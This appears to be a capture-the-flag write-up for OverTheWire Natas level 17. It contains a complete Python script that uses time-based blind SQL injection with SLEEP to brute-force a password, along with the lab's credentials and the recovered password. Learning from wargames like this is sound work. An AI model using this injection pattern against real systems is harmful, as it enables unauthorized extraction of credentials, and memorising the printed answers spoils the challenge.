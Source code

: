 🔐 **Level 17**

When accessing the website, we are greeted with a message along with an input field to enter the username, just like the previous challenge:  
<img width="1920" height="548" alt="image" src="https://github.com/user-attachments/assets/45260d5b-7dd1-4d4b-9963-d31be8936e57" />

Checking the **source code** 📝:  
<img width="1132" height="691" alt="image" src="https://github.com/user-attachments/assets/b824465a-a372-4469-bfb6-20199537fe9c" />

Oh! This time, no matter what we input, nothing is displayed on the page like before. However, this is still a brute-force attack challenge.  
👉 Instead of relying on response messages, we now use **time-based SQL Injection** ⏳ to detect the correct characters.

I used the following Python code to brute-force:

```python
import requests
import string
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')

charset = string.ascii_letters + string.digits

password = ""

for i in range(1, 33):
    for char in charset:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password,{i},1)="{char}", SLEEP(2), 0)-- a'
        start = time.time()
        response = requests.post(url, auth=auth, data={"username": payload})
        end = time.time() - start
        print(f'{end:.4f}{char}')
        if end >= 2:
            password += char
            print(f'Character {i} is {char}')
            break
        else:
            print(f'{char} is not character {i}')

print(f"[✅] Full password of natas17: {password}")

Here, the condition relies on execution time because the SLEEP(2) function delays the process if the guessed character is correct.

And the result was:
<img width="728" height="268" alt="image" src="https://github.com/user-attachments/assets/492b003c-6621-48df-95f3-da90fc736581" />

✨ Password revealed:
 ```
6OG1PbKdVjyBlprgj4DDbRG6ZLlCFgCj

```
